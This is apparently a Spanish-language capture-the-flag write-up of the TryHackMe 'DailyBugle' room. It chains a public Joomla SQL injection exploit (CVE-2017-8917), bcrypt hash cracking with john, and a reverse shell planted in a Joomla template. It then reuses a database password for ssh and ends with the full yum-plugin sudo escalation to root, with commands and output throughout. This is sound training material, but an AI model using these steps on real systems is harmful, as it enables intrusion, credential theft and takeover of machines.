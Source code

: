 ```yaml
---
layout: post
title: DailyBugle - THM
subtitle: DailyBugle - THM
tags: [joomla,sql]
---
```



## Puertos abiertos

```
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
3306/tcp open  mysql   MariaDB (unauthorized)
```

----

## Servicio web 80

Version del gestor Joomla:

```
http://10.10.100.190/README.txt
```

![version](../assets/imgs/daily/version.png)

### SQL Injection

CVE 2017-8917: Vulnerabilidad de inyección SQL en Joomla! 3.7.x antes de 3.7.1 permite a los atacantes ejecutar comandos SQL arbitrarios a través de vectores no especificados.

Busqueda en GooGle por CVE

```
https://github.com/SiopySh/CVE-2017-8917
```

```
❯ sudo python3 cve20178917.py
     _                           _           ____ __     __ _____ 
    | |  ___    ___   _ __ ___  | |  __ _   / ___|\ \   / /| ____|
 _  | | / _ \  / _ \ | '_ ` _ \ | | / _` | | |     \ \ / / |  _|  
| |_| || (_) || (_) || | | | | || || (_| | | |___   \ V /  | |___ 
 \___/  \___/  \___/ |_| |_| |_||_| \__,_|  \____|   \_/   |_____|
                                                                  

--- Version : Joomla 3.7.0 ---
--- Date : 05/27/2021 ---
--- CVE : CVE-2017-8917 ---
--- Exploit Author : SiopySh <contact@siopysh.com> - Twitter @siopysh ---
 
URL (ex: http://10.10.10.10/) : http://10.10.100.190/
 
* Database prefix : fb9j5
* Joomla user : jonah
* Joomla user mail : jonah@tryhackme.com
* Joomla user password : $2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm
* Database user : root@localhost
* Database name : joomla
* Database version : 5.5.64-MariaDB
```

Detectando el tipo de hash

```
❯ hashid "\$2y\$10\$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm"
Analyzing '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt 
```

Obteniendo la contraseña

```
❯ john --show hash
?:spiderman123

1 password hash cracked, 0 left
```

Obtenido las crednciales me logue en el directorio **administrator** de Joomla

```
http://10.10.176.227/administrator/index.php
```

![joomla](../assets/imgs/daily/joomla.png)


## Shell inverso

Edito la plantilla del tema `protostar` el fichero `error.php`

Realizo una petición GET y obtengo shell como usuario `apache`

```
❯ curl "10.10.176.227/templates/protostar/error.php"


──────────────────────────────────────────────────────────────────────────────────────────────────────────
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.102.237] from (UNKNOWN) [10.10.176.227] 45328
Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 23:33:55 up 31 min,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.2$ whoami
whoami
apache
```

## Shell como usuario jjameson

Enumerando el sistema encuentro un fichero `configuration.php` con contraseña de la base de datos.  
Por tanto intento conectarme por ssh el usuario jjameson 

```
bash-4.2$ cat /var/www/html/configuration.php | grep pass
[...]
        public $password = 'nv5uz9r3ZEDzVjNu';
        public $ftp_pass = '';
        public $smtppass = '';
[...]
```

ssh

```
❯ ssh jjameson@10.10.176.227
jjameson@10.10.176.227's password: 
Last login: Mon Dec 16 05:14:55 2019 from netwars
[jjameson@dailybugle ~]$ whoami
jjameson
```

## Escalada de privilegios

Abusando del permiso sudo

```
[jjameson@dailybugle ~]$ sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR
    USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```

[https://gtfobins.github.io/gtfobins/yum/](https://gtfobins.github.io/gtfobins/yum/)

Si sudo permite que el binario se ejecute como superusuario, no elimina los privilegios elevados y puede usarse para acceder al sistema de archivos, escalar o mantener el acceso privilegiado.

Genere un shell raíz interactivo cargando un complemento personalizado.

```
[jjameson@dailybugle ~]$ TF=$(mktemp -d)
[jjameson@dailybugle ~]$ cat >$TF/x<<EOF
> [main]
> plugins=1
> pluginpath=$TF
> pluginconfpath=$TF
> EOF
[jjameson@dailybugle ~]$ cat >$TF/y.conf<<EOF
> [main]
> enabled=1
> EOF
[jjameson@dailybugle ~]$ cat >$TF/y.py<<EOF
> import os
> import yum
> from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
> requires_api_version='2.1'
> def init_hook(conduit):
>   os.execl('/bin/sh','/bin/sh')
> EOF
[jjameson@dailybugle ~]$ 
[jjameson@dailybugle ~]$ sudo yum -c $TF/x --enableplugin=y
Complementos cargados:y
No hay un complemento que se corresponda con: y
sh-4.2# whoami
root
```

Más:

```
> cat /etc/sudoers
[...]
## Allow root to run any commands anywhere 
root    ALL=(ALL)       ALL

jjameson        ALL=(ALL) NOPASSWD: /usr/bin/yum
[...]
```

